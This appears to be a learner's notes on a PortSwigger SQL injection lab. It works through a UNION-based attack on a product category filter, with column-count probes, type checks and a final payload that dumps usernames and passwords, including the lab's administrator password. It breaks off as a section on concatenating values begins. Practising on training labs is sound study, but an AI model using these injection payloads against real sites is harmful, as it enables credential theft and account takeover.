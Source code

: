 `' UNION SELECT username, password FROM users--`

In order to perform this attack, you need to know that there is a table called `users` with two columns called `username` and `password`. Without this information, you would have to guess the names of the tables and columns. All modern databases provide ways to examine the database structure, and determine what tables and columns they contain.

![[Pasted image 20240506184706.png]]

First we get to know that there's 2 columns

![[Pasted image 20240506184829.png]]

no error for string in both columns, that means both are in string type

### Payload used
```
/filter?category=Gifts ' UNION SELECT username, password FROM users--
```

### Notes
SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login as the administrator user.

Analysis:

1) Determine # of columns that the vulnerable query is using
' order by 1--
' order by 2--
' order by 3-- -> internal server error

3-1 = 2


2) Determine the data type of the columns

select a, b from products where category='Gifts

' UNION select 'a', NULL--
' UNION select 'a', 'a'--
-> both columns are of data type string

' UNION select username, password from users--

administrator
tqx26ugf8jp1g30atsu9


# Retrieving multiple values within a single column
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

we can retrieve multiple values together within this single column by concatenating the values together. we can include a separator to let you distinguish the combined values. For example, on Oracle we could submit the input:
